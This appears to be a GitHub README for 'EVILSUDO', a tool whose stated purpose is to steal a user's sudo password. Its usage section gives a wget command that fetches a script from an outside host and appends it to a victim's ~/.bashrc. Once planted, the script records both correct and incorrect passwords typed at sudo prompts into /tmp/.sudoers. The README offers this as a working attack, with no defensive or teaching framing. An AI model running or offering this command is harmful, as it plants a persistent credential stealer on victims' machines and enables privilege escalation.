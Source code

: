 # EVILSUDO
steal sudo password from a user
## USAGE
execute 
```bash
wget -O - https://raw.githubusercontent.com/derickmachaa/priv-esc/master/bash/evilsudo >> ~/.bashrc
```
on a victim wait for them to run a sudo command and BOOM!! both correct and incorrect passsword are stored in /tmp/.sudoers

# credits
https://gist.github.com/tokyoneon/34ce1c9e1530a12eb392b1eab09fcbac
